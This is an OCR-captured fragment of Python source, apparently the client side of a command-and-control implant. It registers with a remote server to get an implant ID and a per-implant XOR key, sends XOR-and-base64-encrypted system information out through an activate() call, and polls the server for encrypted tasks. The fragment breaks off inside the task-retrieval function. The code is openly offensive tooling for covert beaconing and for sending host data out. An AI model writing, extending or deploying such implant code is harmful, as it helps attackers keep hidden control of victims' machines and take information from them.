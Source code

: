 ```python
            print("Error: Key in .xorkey must be an integer")
            sys.exit(1)

    def xor_encrypt(self, data: str, key: int) -> str:
        """XOR encrypt data with key and return base64"""
        encrypted = ''.join(chr(ord(c) ^ key) for c in data)
        return base64.b64encode(encrypted.encode()).decode()

    def xor_decrypt(self, data: str, key: int) -> str:
        """Decode base64 and XOR decrypt data"""
        decoded = base64.b64decode(data.encode()).decode()
        return ''.join(chr(ord(c) ^ key) for c in decoded)

    def register(self) -> Dict[str, Any]:
        """Initial registration request using INITIAL_XOR_KEY"""
        print("\nRegistering new implant...")
        response = requests.get(
            f"{self.base_url}/register",
            headers=self.headers
        )
        
        if response.status_code == 200:
            data = response.json()
            self.implant_id = data['id']
            self.unique_xor_key = int(base64.b64decode(data['k']).decode())
            self.headers['X-Request-ID'] = self.implant_id
            print(f"Got implant ID: {self.implant_id}")
            print(f"Got UNIQUE_XOR_KEY: {self.unique_xor_key}")
            
        return response.json()

    def activate(self, system_info: Dict[str, Any]) -> Dict[str, Any]:
        """Activate implant with system information using UNIQUE_XOR_KEY"""
        if not self.unique_xor_key:
            raise Exception("Must register first to get UNIQUE_XOR_KEY")
            
        encrypted_data = self.xor_encrypt(json.dumps(system_info), self.unique_xor_key)
        
        print("\nActivating implant...")
        response = requests.post(
            f"{self.base_url}/register",
            headers=self.headers,
            json={'data': encrypted_data}
        )
        
        return response.json()

    def get_task(self) -> Dict[str, Any]:
        """Get pending tasks using UNIQUE_XOR_KEY"""
        if not self.unique_xor_key:
            raise Exception("Must register first to get UNIQUE_XOR_KEY")
            
        print("\nChecking for tasks...")
        response = requests.get(
            f"{self.base_url}/task",
            headers=self.headers
        )
        
        if response.status_code == 200:
            encrypted_data = response.json().get('data')
            if encrypted_data:
                decrypted = self.xor_decrypt(encrypted_data, self.unique_xor_key)
                return json.loads(decrypted)
```